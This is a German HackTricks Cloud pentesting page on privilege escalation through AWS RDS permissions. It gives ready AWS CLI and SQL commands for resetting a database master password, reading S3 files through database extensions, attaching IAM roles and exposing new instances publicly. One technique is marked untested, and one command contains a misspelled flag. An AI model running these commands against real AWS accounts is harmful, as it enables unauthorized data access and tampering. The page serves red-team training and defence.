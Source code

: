 # AWS - RDS Privesc

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

## RDS - Relational Database Service

Für weitere Informationen zu RDS siehe:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Mit dieser Berechtigung kann ein Angreifer **das Passwort des Master-Benutzers ändern** und sich in die Datenbank einloggen:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Sie müssen in der Lage sein, **Kontakt zur Datenbank** aufzunehmen (sie sind normalerweise nur aus internen Netzwerken zugänglich).
{% endhint %}

**Potenzielle Auswirkungen:** Sensible Informationen in den Datenbanken finden.

### rds-db:connect

Laut den [**Docs**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) könnte ein Benutzer mit dieser Berechtigung eine Verbindung zur DB-Instanz herstellen.

### Missbrauch von RDS-Rollen-IAM-Berechtigungen

#### Postgresql (Aurora)

{% hint style="success" %}
Wenn Sie **`SELECT datname FROM pg_database;`** ausführen und eine Datenbank namens **`rdsadmin`** finden, wissen Sie, dass Sie sich in einer **AWS Postgresql-Datenbank** befinden.
{% endhint %}

Zuerst können Sie überprüfen, ob diese Datenbank verwendet wurde, um auf einen anderen AWS-Dienst zuzugreifen. Sie könnten dies überprüfen, indem Sie sich die installierten Erweiterungen ansehen:
```sql
SELECT * FROM pg_extension;
```
Wenn Sie etwas wie **`aws_s3`** finden, können Sie davon ausgehen, dass diese Datenbank **irgendeine Art von Zugriff auf S3** hat (es gibt andere Erweiterungen wie **`aws_ml`** und **`aws_lambda`**).

Wenn Sie außerdem die Berechtigung haben, **`aws rds describe-db-clusters`** auszuführen, können Sie dort sehen, ob der **Cluster eine IAM-Rolle zugewiesen hat** im Feld **`AssociatedRoles`**. Falls vorhanden, können Sie davon ausgehen, dass die Datenbank **vorbereitet wurde, um auf andere AWS-Dienste zuzugreifen**. Basierend auf dem **Namen der Rolle** (oder wenn Sie die **Berechtigungen** der Rolle erhalten können) könnten Sie **vermuten**, auf welchen zusätzlichen Zugriff die Datenbank hat.

Um nun **eine Datei in einem Bucket zu lesen**, müssen Sie den vollständigen Pfad kennen. Sie können es mit folgendem Befehl lesen:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Wenn Sie **rohe AWS-Anmeldeinformationen** hätten, könnten Sie diese auch verwenden, um auf S3-Daten zuzugreifen mit:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **muss keine Parametergruppenvariable ändern**, um auf S3 zugreifen zu können.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Wenn Sie in einer mysql die Abfrage **`SELECT User, Host FROM mysql.user;`** ausführen und es einen Benutzer namens **`rdsadmin`** gibt, können Sie davon ausgehen, dass Sie sich in einer **AWS RDS mysql db** befinden.
{% endhint %}

Führen Sie in der mysql **`show variables;`** aus, und wenn die Variablen wie **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`** Werte haben, können Sie davon ausgehen, dass die Datenbank vorbereitet ist, um auf S3-Daten zuzugreifen.

Wenn Sie außerdem die Berechtigung haben, **`aws rds describe-db-clusters`** auszuführen, können Sie überprüfen, ob der Cluster eine **assoziierte Rolle** hat, was normalerweise den Zugriff auf AWS-Dienste bedeutet.

Um nun **eine Datei innerhalb eines Buckets zu lesen**, müssen Sie den vollständigen Pfad kennen. Sie können sie mit folgendem Befehl lesen:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Ein Angreifer mit den Berechtigungen `rds:AddRoleToDBCluster` und `iam:PassRole` kann **eine bestimmte Rolle zu einer bestehenden RDS-Instanz hinzufügen**. Dies könnte dem Angreifer ermöglichen, **auf sensible Daten zuzugreifen** oder die Daten innerhalb der Instanz zu ändern.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Potenzielle Auswirkungen**: Zugriff auf sensible Daten oder unbefugte Änderungen an den Daten in der RDS-Instanz.\
Beachten Sie, dass einige DBs zusätzliche Konfigurationen erfordern, wie Mysql, das die Angabe der Rollen-ARN in den Parametergruppen benötigt.

### `rds:CreateDBInstance`

Nur mit dieser Berechtigung könnte ein Angreifer eine **neue Instanz innerhalb eines bereits vorhandenen Clusters** erstellen, der eine **IAM-Rolle** zugewiesen ist. Er wird das Master-Benutzerpasswort nicht ändern können, aber er könnte in der Lage sein, die neue Datenbankinstanz ins Internet zu exponieren:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

Ein Angreifer mit den Berechtigungen `rds:CreateDBInstance` und `iam:PassRole` kann **eine neue RDS-Instanz mit einer angegebenen Rolle erstellen**. Der Angreifer kann dann potenziell **auf sensible Daten zugreifen** oder die Daten innerhalb der Instanz ändern.

{% hint style="warning" %}
Einige Anforderungen an die Rolle/Instanzprofil, die angehängt werden sollen (von [**hier**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Das Profil muss in Ihrem Konto existieren.
* Das Profil muss eine IAM-Rolle haben, die Amazon EC2 die Berechtigung hat, zu übernehmen.
* Der Name des Instanzprofils und der zugehörige IAM-Rollenname müssen mit dem Präfix `AWSRDSCustom` beginnen.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Potenzielle Auswirkungen**: Zugriff auf sensible Daten oder unbefugte Änderungen an den Daten in der RDS-Instanz.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Ein Angreifer mit den Berechtigungen `rds:AddRoleToDBInstance` und `iam:PassRole` kann **eine bestimmte Rolle zu einer bestehenden RDS-Instanz hinzufügen**. Dies könnte dem Angreifer ermöglichen, **auf sensible Daten zuzugreifen** oder die Daten innerhalb der Instanz zu ändern.

{% hint style="warning" %}
Die DB-Instanz muss außerhalb eines Clusters sein, um dies zu ermöglichen.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Potenzielle Auswirkungen**: Zugriff auf sensible Daten oder unbefugte Änderungen an den Daten in der RDS-Instanz.

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teile Hacking-Tricks, indem du PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
